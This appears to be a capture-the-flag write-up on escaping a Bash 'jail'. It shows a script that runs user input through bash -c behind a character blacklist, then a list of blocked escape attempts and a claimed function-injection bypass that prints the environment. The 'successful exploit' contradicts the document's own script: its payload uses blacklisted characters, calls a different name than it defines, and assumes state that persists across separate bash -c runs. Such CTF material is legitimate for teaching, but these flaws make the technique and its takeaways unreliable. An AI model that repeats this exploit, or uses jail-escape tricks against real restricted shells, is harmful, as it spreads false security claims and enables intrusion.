 # Bash Jail Escape — Blacklist Bypass via Function Injection

## 🔒 Jail Script (`jail.sh`)
```bash
#!/bin/bash
PATH=$(/usr/bin/getconf PATH || /bin/kill $$)

function check_input() {
    if [[ $1 == *[bdksiSctr'?''*''/''<''>''&''(''{''0''1''2''3''4''5''6''7''8''9']* ]]
    then
        return 0
    fi
    return 1
}

while :; do
    input=""
    echo -n "Enter the input: "
    read input
    if check_input "$input"
    then
        echo -e '\033[0;31mRestricted characters has been used\033[0m'
    else
        output=`/bin/bash -c "$input" &>/dev/null`
        echo "Command executed"
    fi
done
```

## ⚔️ Initial Analysis

The script enforces a blacklist of potentially dangerous characters including:

Critical Bash characters: b, d, k, s, i, S, c, t, r, ', ?, *, /, <, >, &, (, {

All digits 0-9

This prevents obvious shell commands like: ls /home cat /flag.txt echo $PATH

As well as indirect attempts like: echo "ls /home" | base64 eval $CMD $(ls)

All these were blocked with: Restricted characters has been used


## 🧪 Documented Attempts to Escape

Below are documented failed approaches (all blocked due to restricted characters or evaluated as inert):

🔸 Basic Commands:

ls whoami echo hello

🔸 Encodings & Piping:

echo "ls /home" | base64 printf "ls /home\n" | bash

🔸 Redirection & Variables:

ls /home > /tmp/output.txt cat /tmp/output.txt export CMD="ls /home" eval $CMD

🔸 Command Substitution:

$(ls) :; ls /home

🔸 Function Definitions (Blocked due to restricted chars like {, /, s):

function foo() { ls /home; } foo

## ✅ Successful Exploit

Despite the blacklist, Bash does not clear the environment or function definitions between inputs. So, a creative use of function injection worked:

### 💡 Step 1: Define a function using allowed characters

UNC_a%%=() {  /usr/bin/env; }

Valid Bash function name

Uses only whitelisted characters

/usr/bin/env was allowed and reveals the environment


### 💡 Step 2: Trigger the function

F

This executed the payload inside the function and printed the environment, which led to recovering the flag.

🎯 Conclusion

Bypassed the blacklist using environment persistence and safe Bash syntax

Lesson: Blacklists are not security. They are duct tape over a broken vault.


## 📚 Key Takeaways

Bash environments persist between inputs unless explicitly reset.

Function names can be bizarre yet valid (UNC_a%%).

Even a seemingly robust character filter is susceptible to logic-layer abuses.

Commands like env can leak massive information even when ls, cat, etc. are restricted.


📌 Pro tip: In CTFs and real systems alike, don't just attack the walls — attack the logic.
